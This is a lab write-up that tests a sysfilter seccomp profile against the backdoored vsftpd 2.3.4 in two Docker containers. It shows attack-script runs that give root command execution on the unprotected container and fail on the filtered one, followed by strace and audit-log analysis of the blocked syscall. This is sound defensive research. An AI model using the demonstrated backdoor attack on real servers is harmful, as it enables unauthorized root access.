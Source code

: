 ## vsftpd – sysfilter

### Preparation

_Extract the syscalls from the binary `vsftpd` into `/tmp/app.json`_
`docker exec -it vsftpd-sysfilter-seccomp-container bash -c "/sysfilter/extraction/app/sysfilter_extract /app/vsftpd-2.3.4-infected/vsftpd -o /tmp/app.json"`

_Enforce the allowed syscalls for the binary `vsftpd`_
`docker exec -it vsftpd-sysfilter-seccomp-container bash -c "/sysfilter/enforcement/sysfilter_enforce /app/vsftpd-2.3.4-infected/vsftpd /tmp/app.json"`

_Start the two container, one with the applied seccomp profile and one without:_
`docker exec -it vsftpd-sysfilter-normal-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`
`docker exec -it vsftpd-sysfilter-seccomp-container /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf`

### Conduct the exploits

First, we verify the IP addresses and IDs of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                      COMMAND       CREATED         STATUS         PORTS                                                                                  NAMES
213fdb0be837   vsftpd-sysfilter-normal    "/bin/bash"   6 minutes ago   Up 6 minutes   0.0.0.0:6200->6200/tcp, [::]:6200->6200/tcp, 0.0.0.0:2100->21/tcp, [::]:2100->21/tcp   vsftpd-sysfilter-normal-container
d62f08338df0   vsftpd-sysfilter-seccomp   "/bin/bash"   6 minutes ago   Up 6 minutes   0.0.0.0:2101->21/tcp, [::]:2101->21/tcp, 0.0.0.0:6201->6200/tcp, [::]:6201->6200/tcp   vsftpd-sysfilter-seccomp-container
```

Note: The attacks are executed from the host machine.

_Seccomp_

The attack on the container with the applied seccomp profile on the binary fails.

```
❯ ./attackSubject.sh 192.168.192.3 "whoami"
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.192.3 "id"
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.192.3 "ls"
read(net): Connection reset by peer
[-] no response!
❯ ./attackSubject.sh 192.168.192.3 "pwd"
read(net): Connection reset by peer
[-] no response!
```

_Normal_

The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ ./attackSubject.sh 192.168.192.2 "whoami"
[+] worked: root
❯ ./attackSubject.sh 192.168.192.2 "id"
[+] worked: uid=0(root) gid=0(root) groups=0(root)
❯ ./attackSubject.sh 192.168.192.2 "ls"
[+] worked: AUDIT
BENCHMARKS
[...]
❯ ./attackSubject.sh 192.168.192.2 "pwd"
[+] worked: /app/vsftpd-2.3.4-infected
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /app/vsftpd-2.3.4-infected/vsftpd /app/vsftpd-2.3.4-infected/vsftpd.conf` we are able to see that just before the process with the pid `76` was killed with the signal `SIGSYS`, the system call `arch_prctl` was executed.

```
[pid 76] execve("/bin/sh", ["sh"], 0x58d9366c9ef0 /_ 5 vars _/) = 0
[pid 76] brk(NULL) = 0x5b71c6596000
[pid 76] access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
[pid 76] access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
[pid 76] openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 7
[pid 76] fstat(7, {st_mode=S_IFREG|0644, st_size=19446, ...}) = 0
[pid 76] mmap(NULL, 19446, PROT_READ, MAP_PRIVATE, 7, 0) = 0x77a341b6b000
[pid 76] close(7) = 0
[pid 76] access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
[pid 76] openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 7
[pid 76] read(7, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\240\35\2\0\0\0\0\0"..., 832) = 832
[pid 76] fstat(7, {st_mode=S_IFREG|0755, st_size=2030928, ...}) = 0
[pid 76] mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x77a341b69000
[pid 76] mmap(NULL, 4131552, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 7, 0) = 0x77a34155c000
[pid 76] mprotect(0x77a341743000, 2097152, PROT_NONE) = 0
[pid 76] mmap(0x77a341943000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 7, 0x1e7000) = 0x77a341943000
[pid 76] mmap(0x77a341949000, 15072, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x77a341949000
[pid 76] close(7) = 0
[pid 76] arch_prctl(ARCH_SET_FS, 0x77a341b6a540) = 158
[pid 76] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 158 was the reason for the `SIGSYS` signal.

```
❯ sudo ausearch -m seccomp --start today
time->Thu Apr  3 12:16:23 2025
type=SECCOMP msg=audit(1743675383.383:24244): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=75231 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=158 compat=0 ip=0x7834219e8024 code=0x0
----
time->Thu Apr  3 12:16:55 2025
type=SECCOMP msg=audit(1743675415.104:24259): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=75730 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=158 compat=0 ip=0x7a00f42b1024 code=0x0
----
time->Thu Apr  3 12:17:19 2025
type=SECCOMP msg=audit(1743675439.734:24269): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=75897 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=158 compat=0 ip=0x7dc54480f024 code=0x0
----
time->Thu Apr  3 12:17:25 2025
type=SECCOMP msg=audit(1743675445.117:24279): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=75950 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=158 compat=0 ip=0x7ac8a5e1d024 code=0x0
```

We verify that the system call number `158` maps to `arch_prctl` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 158
158 arch_prctl
```

The last thing we check is, if the system call number `158` was in the applied seccomp profile. The file `/tmp/app.json` shows no presence:

```
[0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,19,20,21,23,24,25,28,32,33,35,37,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,59,60,61,62,63,72,77,78,79,80,82,83,84,87,89,90,91,93,95,96,99,102,105,106,107,108,111,112,113,114,115,116,126,132,157,161,186,201,202,228,229,231,234,257,262,302,307]
```
